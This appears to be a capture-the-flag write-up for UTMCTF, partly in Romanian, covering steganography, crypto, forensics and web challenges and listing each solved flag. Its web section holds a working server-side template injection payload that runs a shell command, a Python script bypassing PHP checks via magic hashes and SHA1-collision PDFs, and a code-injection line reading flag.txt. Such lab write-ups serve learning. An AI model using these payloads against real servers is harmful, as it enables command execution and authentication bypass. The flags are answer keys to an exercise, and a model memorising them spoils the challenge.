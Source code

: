 # Steganography
## Plain Sight
```bash
strings ~/Downloads/image.jpg|grep "UTMCTF*"
```
![[Pasted image 20231201212211.png]]
Flag is -> `UTMCTF{steganography_is_hiding_messages_in_plain_sight}`
## M0r
Use -> https://morsecode.world/international/decoder/audio-decoder-adaptive.html
![[Pasted image 20231201212418.png]]
Flag is -> `ctf{MORSE_CODE_IS_COOL}`
## Complicated
Use -> https://github.com/Giotino/stegsolve/releases
```bash
java -jar stegsolve.jar
```
![[Pasted image 20231201212642.png]]![[Pasted image 20231201212712.png]]
Flag is -> `ctf{pictures_can_actually_be_really_complicated}`
## Different
```bash
zsteg image-2.png
```
![[Pasted image 20231201212939.png]]
Flag is -> `ctf{there_are_1001_different_ways_to_hide_flags}`

# Reverse Engineering
## Demosquito
![[Pasted image 20231201213333.png]]
Flag is -> `UTMCTF{d3bugg1ng_again}`

## Cryptography
![[Pasted image 20231201213454.png]]
Acesta este un `Ascii85` sau `Base85`
Decoder ->https://cryptii.com/pipes/ascii85-encoding
![[Pasted image 20231201213623.png]]
```rezult
35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 32 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 32 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 38 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 39 20 33 32 20 35 34 20 34 
```
Next use -> https://cyberchef.org/
![[Pasted image 20231201214029.png]]
Flag is -> `UTMCTF{h4-h4_cl4551c_c7f_c0nv3r510n_745k_898318f01fc3472108c408394fab2773}`

## What Could Those Be
![[Pasted image 20231201214413.png]]
21;20;13;3;20;6;{;12;5;20;20;5;18;19;;1;18;5;;6;21;14;}
Flag is ->`UTMCTF{LETTERS_ARE_FUN}`

## Baby RSA
![[Pasted image 20231201214519.png]]
Flag is -> `UTMCTF{r54_15_c00l_d4w6}`

# Forensics
## Banger Sound
![[Pasted image 20231201214717.png]]
Flag is -> `UTMCTF{b33p_b00p_c00l_5p3c7r06r4m}`

## Hidden Note
```bash
exiftool ~/Downloads/flag.jpg
```
![[Pasted image 20231201215011.png]]
Flag is -> `UTMCTF{m374fl46_1n_m374d474}`

# Miscellaneous

## Discord
![[Pasted image 20231201215221.png]]
![[Pasted image 20231201215250.png]]
Flag is ->`UTMCTF{1f_y0u_n33d_h31p_y0u_c0m3_h323}`

## OC
![[Pasted image 20231201215612.png]]
Flag is -> `UTMCTF{ocaml_easy}`

# Web
## Winter Rave Organizers
![[Pasted image 20231201215729.png]]
![[Pasted image 20231201215756.png]]
Flag is -> `UTMCTF{1_d0n7_0r64n1z3_r4v35}`

## Spooky Scary Halloween in December
[[SSTI]] (Server Side Template Injection)
```python
{{ cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}
```
![[Pasted image 20231201223339.png]]
Flag is -> `UTMCTF{5p00ky_5c4ry_71m3l355_1nv3n710n5}`

## PHP Shenanigans
hen our supplied input is : **d33**d33p**p  
$php main.php**  
Final String is : **d33p**

```python
import requests
import urllib.request as urllib2
hash1 = urllib2.urlopen("http://shattered.io/static/shattered-1.pdf").read()[:500];
hash2 = urllib2.urlopen("http://shattered.io/static/shattered-2.pdf").read()[:500];
r = requests.get('http://35.206.162.61:12004/', params={'ready':1,'password':'0e001233333333333334557778889','magic':'13371337_password_password','red_potion':hash1,'blue_potion':hash2});
print (r.text)

#params={'name': rotimi, 'password': letmein} Parametri din exemplu
#Parametri care trebuie
#http://35.206.162.61:12004/?ready=1&password=0e001233333333333334557778889&magic=13371337_password_password&red_potion=1&blue_potion=2
```
![[Pasted image 20231202165940.png]]
## Broken Calculator
```python
open('flag.txt').read()
```
![[Pasted image 20231202173721.png]]

## Page
![[Pasted image 20231202175616.png]]Flag is-> `UTMCTF{welcome_to_the_party}`

